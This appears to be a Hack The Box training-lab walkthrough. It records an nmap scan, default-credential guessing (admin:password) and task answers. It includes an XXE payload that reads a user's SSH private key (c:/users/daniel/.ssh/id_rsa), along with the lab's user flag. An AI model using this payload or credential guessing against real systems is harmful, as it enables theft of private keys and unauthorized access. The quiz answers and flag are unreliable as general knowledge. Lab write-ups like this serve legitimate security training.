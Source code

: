 # Connect to HTB
openvpn starting_point_MidnightKali.ovpn

# Spawn Machine

# Target machine IP address
10.129.176.122

# Export to variable
export IP=10.129.176.122

TASK 1

What version of Apache is running on the target's port 80?

# Run NMAP for enumeration
nmap -sC -sV $IP -oN nmap-sC-sV.txt

PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH for_Windows_8.1 (protocol 2.0)
| ssh-hostkey: 
|   3072 9f:a0:f7:8c:c6:e2:a4:bd:71:87:68:82:3e:5d:b7:9f (RSA)
|   256 90:7d:96:a9:6e:9e:4d:40:94:e7:bb:55:eb:b3:0b:97 (ECDSA)
|_  256 f9:10:eb:76:d4:6d:4f:3e:17:f3:93:d6:0b:8c:4b:81 (ED25519)
80/tcp  open  http     Apache httpd 2.4.41 ((Win64) OpenSSL/1.1.1c PHP/7.2.28)
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.41 (Win64) OpenSSL/1.1.1c PHP/7.2.28
|_http-title: MegaShopping
443/tcp open  ssl/http Apache httpd 2.4.41 ((Win64) OpenSSL/1.1.1c PHP/7.2.28)
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.41 (Win64) OpenSSL/1.1.1c PHP/7.2.28
|_http-title: MegaShopping
| ssl-cert: Subject: commonName=localhost
| Not valid before: 2009-11-10T23:48:47
|_Not valid after:  2019-11-08T23:48:47
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|_  http/1.1

2.4.41

TASK 2

What username:password combination logs in successfully?

# We are met with a simple login page. Attempting a number of default credentials

admin:admin
administrator:administrator
admin:administrator
admin:password
administrator:password

admin:password

TASK 3

What is the word at the top of the page that accepts user input?

order

TASK 4

What XML version is used on the target?

1.0

What does the XXE / XEE attack acronym stand for?

XML External Entity

TASK 6

What username can we find on the webpage's HTML code?

daniel

TASK 7

What is the file located in the Log-Management folder on the target?

job.bat

XEE 

<?xml version="1.0"?>
<!DOCTYPE root [<!ENTITY test SYSTEM 'file:///c:/users/daniel/.ssh/id_rsa'>]>
<order>
<quantity>
3
</quantity>
<item>
&test;
</item>
<address>
17th Estate, CA
</address>
</order>

TASK 8

What executable is mentioned in the file mentioned before?

wevtutil.exe

10.129.95.192

SUBMIT FLAG

Submit user flag

HTB{032d2fc8952a8c24e39c8f0ee9918ef7}

SUBMIT FLAG

Submit root flag